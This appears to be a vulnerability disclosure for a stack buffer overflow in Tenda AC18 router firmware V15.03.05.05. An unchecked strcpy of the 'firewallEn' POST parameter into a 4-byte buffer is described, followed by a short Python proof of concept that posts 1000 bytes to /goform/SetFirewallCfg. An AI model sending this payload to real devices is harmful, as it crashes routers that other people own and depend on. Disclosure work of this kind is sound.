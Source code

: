 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html

- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda AC18 V15.03.05.05 firmware has a stack overflow vulnerability in the `formSetFirewallCfg` function. The `src` variable receives the `firewallEn` parameter from a POST request and is later assigned to the `dest` variable, which is fixed at 4 bytes. However, since the user can control the input of  `firewallEn`, the statement `strcpy(dest, src);` can cause a buffer overflow. The user-provided  `firewallEn` can exceed the capacity of the `dest` array, triggering this security vulnerability.

![image-20240305233936132](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305233936132.png)

![image-20240305234104657](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305234104657.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetFirewallCfg"
payload = b"a"*1000

data = {"firewallEn": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240305233859512](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305233859512.png)
